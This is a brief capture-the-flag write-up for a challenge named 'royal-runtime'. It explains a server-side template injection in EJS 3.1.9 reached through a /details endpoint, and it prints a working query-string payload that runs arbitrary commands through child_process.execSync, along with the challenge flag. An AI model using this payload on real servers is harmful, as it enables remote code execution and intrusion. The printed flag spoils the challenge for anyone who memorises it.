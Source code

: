 # royal-runtime

## Write-up

- Basically check the /details endpoint as it accepts any query, you can take advantage of this to put injection payload as the EJS version used in this challenge is vulnrable.
- The flag is located in the root of the machine.
- [EJS@3.1.9 has a server-side template injection vulnerability](https://github.com/mde/ejs/issues/735)

> Payload used is:
> ?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor.\_load('child_process').execSync('THE COMMAND YOU WANT TO PERFORM');

## Flag

`shellmates{WE_t0ld_y0U,_U$3_EJs_4T_y0UR_oWn_RI$K!!}`
